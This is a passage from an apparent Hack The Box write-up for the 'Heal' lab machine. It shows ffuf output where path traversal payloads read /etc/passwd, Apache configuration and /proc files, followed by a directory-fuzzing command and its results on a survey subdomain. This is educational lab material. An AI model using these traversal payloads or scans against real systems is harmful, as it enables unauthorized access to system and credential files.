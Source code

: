 ```
..%2F..%2F..%2F%2F..%2F..%2Fetc/passwd [Status: 200, Size: 2120, Words: 18, Lines: 40, Duration: 608ms]
/etc/apache2/apache2.conf [Status: 200, Size: 7224, Words: 942, Lines: 228, Duration: 2100ms]
../../../../../../../../../../../../../../../../../../../../etc/passwd [Status: 200, Size: 2120, Words: 18, Lines: 40, Duration: 2102ms]
/etc/rpc                [Status: 200, Size: 887, Words: 36, Lines: 41, Duration: 2098ms]
/proc/meminfo           [Status: 200, Size: 0, Words: 1, Lines: 1, Duration: 2095ms]
```

There we go, another thing I found while creating an account is there's a survey section in our profile:

![](Pasted image 20250311164853.png)

If we click it, we are redirected to another subdomain:

![](Pasted image 20250311164915.png)

Let's add it and try to fuzz:

```
ffuf -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt:FUZZ -u "http://take-survey.heal.htb/FUZZ" -ic -c -t 200

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://take-survey.heal.htb/FUZZ
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 200
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

                        [Status: 200, Size: 75816, Words: 32809, Lines: 1086, Duration: 328ms]
optin                   [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 2146ms]
responses               [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 2142ms]
```

We get two, `optin` and `responses`, if we try going into `responses`, we are redirected into another site:

![](Pasted image 20250311165040.png)
